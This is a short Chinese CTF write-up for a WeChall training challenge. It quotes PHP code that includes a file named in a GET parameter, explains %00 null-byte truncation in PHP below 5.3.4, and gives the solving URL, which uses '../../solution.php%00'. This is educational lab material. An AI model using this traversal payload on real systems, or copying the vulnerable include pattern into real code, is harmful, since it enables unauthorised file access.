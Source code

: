 
* 题目
``` 
Your mission is to exploit this code, which has obviously an LFI vulnerability:

GeSHi`ed PHP code
1
2
$filename = 'pages/'.(isset($_GET["file"])?$_GET["file"]:"welcome").'.html';
include $filename;


There is a lot of important stuff in ../solution.php, so please include and execute this file for us.

Here are a few examples of the script in action (in the box below):
index.php?file=welcome
index.php?file=news
index.php?file=forums

For debugging purposes, you may look at the whole source again, also as highlighted version.
```

* %00截断介绍
> %00截断，例如1.php%00.txt，白名单在测试时会直接将这个带入，判断后缀名（因为此时1.php%00.txt是一个字符串整体），但执行该代码时，会自动截断%00后面的内容，只要记住会删除包括%00及后面的所有内容

> php<5.3.4

* 答案
> http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00